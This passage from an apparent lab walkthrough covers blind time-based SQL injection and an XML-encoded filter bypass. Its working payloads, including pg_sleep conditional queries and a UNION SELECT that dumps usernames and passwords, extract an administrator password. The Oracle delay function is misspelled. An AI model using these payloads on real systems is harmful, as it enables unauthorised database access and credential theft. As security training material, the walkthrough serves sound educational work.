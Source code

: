 `AND 1=CAST(SELECT password FROM users) as int)--`. 

And now, we receive the password of administrator.

## 14. Blind SQL injection with time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds:

- Oracle: `dbms_pipe.recieve_message(('a'),10)`
  
- Microsoft: `WAITFOR DELAY '0:0:10'`

- PostgreSQL: `SELECT pg_sleep(10)`

- MySQL: `SELECT SLEEP(10)`

Suppose that it is MySQL, we insert for the following structure to the query: `' || (SELECT SLEEP(10))--` => Lab will be completed.

## 15. Blind SQL injection with time delays and information retrieval

Confirm that web is vulnerable: `' || pg_sleep(10)--`

Determine whether users table exists by adding:

`' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) else pg_sleep(-1) end)--`

`' || (SELECT CASE WHEN (usename='administrator') THEN pg_sleep(10) else pg_sleep(-1) end from users)--` => Return that users table exists.

Next, we predict the password's length by adding `length(password)>1` and `length(password)>25`. It also means the length is between [1;25] characters.

`' || (SELECT CASE WHEN (usename='administrator' and length(password)>1) THEN pg_sleep(10) else pg_sleep(-1) end from users)--`

`' || (SELECT CASE WHEN (usename='administrator' and length(password)>25) THEN pg_sleep(10) else pg_sleep(-1) end from users)--`

Sniper the length and receive the first response least received => Have the right length of password.

Last, to predict password by using sniper method:

- Find the first character:
`' || (SELECT CASE WHEN (usename='administrator' and substr(password, 1, 1)='a') THEN pg_sleep(10) else pg_sleep(-1) end from users)--`` => find the request has time delays more than 10 seconds.

- Find other characters: we switch to cluster bomb mode and set up two payloads, with payload 1 indicating the location of the password and payload 2 representing the character that is held at that position. Then proceed to launch the attack.

## 16. SQL injection with filter bypass via XML encoding

Adding into `storeId` in the request: `UNION SELECT NULL`

Although attacking, we are unsuccessful. The response section has the answer 'Attack 
detected'.

Using hackvertor to attack. This will return 1 column, so we can merge username and password by inserting into `storeId` with: `UNION SELECT username || '-' || password FROM users`
